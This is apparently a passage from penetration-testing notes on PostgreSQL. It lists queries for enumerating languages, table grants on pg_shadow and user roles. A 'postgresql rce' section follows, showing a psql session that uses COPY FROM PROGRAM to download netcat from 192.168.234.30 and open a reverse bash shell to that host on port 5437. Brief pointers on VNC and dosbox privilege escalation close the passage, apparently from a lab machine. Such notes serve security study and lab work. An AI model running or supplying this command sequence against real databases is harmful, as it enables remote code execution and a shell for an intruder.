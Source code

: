 ```bash
#Check if plpgsql is enabled
SELECT lanname,lanacl FROM pg_language WHERE lanname = 'plpgsql'

#Change password
ALTER USER user_name WITH PASSWORD 'new_password';

#Check users privileges over a table (pg_shadow on this example)
SELECT grantee, privilege_type 
FROM information_schema.role_table_grants 
WHERE table_name='pg_shadow'

#Get users roles
SELECT 
      r.rolname, 
      r.rolsuper, 
      r.rolinherit,
      r.rolcreaterole,
      r.rolcreatedb,
      r.rolcanlogin,
      r.rolconnlimit, r.rolvaliduntil,
  ARRAY(SELECT b.rolname
        FROM pg_catalog.pg_auth_members m
        JOIN pg_catalog.pg_roles b ON (m.roleid = b.oid)
        WHERE m.member = r.oid) as memberof
, r.rolreplication
FROM pg_catalog.pg_roles r
ORDER BY 1;
```

**postgresql rce**
```bash
postgres=# \c postgres;
psql (12.2 (Debian 12.2-1+b1), server 11.7 (Debian 11.7-0+deb10u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "postgres" as user "postgres".
postgres=# DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'wget http://192.168.234.30/nc';
COPY 0
postgres=# DELETE FROM cmd_exec;
DELETE 0
postgres=# COPY cmd_exec FROM PROGRAM 'nc -n 192.168.234.30 5437 -e /usr/bin/bash';

```

## 5901-VNC
+ vnc service
+ vnc connect + dosbox privesc, pg-nukem
